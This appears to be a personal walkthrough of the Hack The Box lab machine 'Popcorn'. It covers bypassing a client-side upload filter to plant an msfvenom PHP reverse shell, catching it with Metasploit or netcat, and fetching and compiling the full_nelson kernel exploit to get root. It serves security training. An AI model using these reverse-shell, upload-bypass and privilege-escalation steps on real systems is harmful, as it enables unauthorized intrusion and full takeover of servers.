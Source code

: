 # Popcorn 10.10.10.6


- Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux

- file upload exploit (xx.php.png) JS filter *.png, use Burp to remove .png
- Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : https://www.exploit-db.com/exploits/15704 , Tested on unpatched Ubuntu 10.04 kernels, both x86 and x86-64.



## nmap
````
$ nmap -A 10.10.10.6
````
=> 80

## dirb -> bittornado
````
$ dirb http://10.10.10.6
http://10.10.10.6/torrent/
````


## Site exploit : file upload (xx.php.png)

We can Register an account

Upload a torrent
Submit a screenshot : need to upload a .png file
JS filter *.png
Intercept with Burp
Rename .php => .php.png 

Build a .php reverse shell
````
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.30 lport=4445 -f raw  > 123.php.png
````

Intercept the Post with Burp
Rename 123.php.png to 123.php
Meterpreter is uploaded... where ?

````
dirb http://10.10.10.6/torrent/
http://10.10.10.6/torrent/upload/ 
````
## Get meterpreter

Prepare a listener
````
$ msfconsole
msf use exploit/multi/handler
msf exploit(multi/handler) set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost 10.10.14.30
msf exploit(multi/handler) set lport 4321
msf exploit(multi/handler) exploit

meterpreter > sysinfo
 Linux popcorn 2.6.31-14
````

## The same without meterpreter

```
# msfvenom -p php/reverse_php lhost=10.10.14.30 lport=4445 -f raw  > r_php.php.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3017 bytes

root@kali:~/htb/YoloToolbox/machines/htb/popcorn# nc -lvp 4445
listening on [any] 4445 ...
10.10.10.6: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.6] 58345

whoami
www-data

uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```
Le shell via php n'est pas terrible...
on ne recupere pas la main une fois l'exploit lancé


## Pric esc : full_nelson

=> Linux Kernel <= 2.6.37 local privilege escalation : full_nelson : 3 Privilege to get root
Exploit 3 CVE: CVE-2010-4258, CVE-2010-3849, CVE-2010-3850
Tested on unpatched Ubuntu 10.04 kernels, both x86 and x86-64.
````
https://www.exploit-db.com/exploits/15704
````


upload 15704.c
```
python -m SimpleHTTPServer
wget http://10.10.14.30:8000/15704.c
```

meterpreter> shell
````
gcc 15704.c -o exploit
chmod 755 exploit
./exploit
id
uid=0(firefart)
cat /root/root.txt
[*] Started reverse TCP handler on 10.10.14.30:4445 
[*] Sending stage (37775 bytes) to 10.10.10.6
[*] Meterpreter session 1 opened (10.10.14.30:4445 -> 10.10.10.6:49403) at 2019-09-03 23:16:29 +0200

meterpreter > shell
Process 2187 created.
Channel 0 created.

./exploit
id
uid=0(root) gid=0(root)

cat /home/george/user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxx
cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxxxxx

````
 

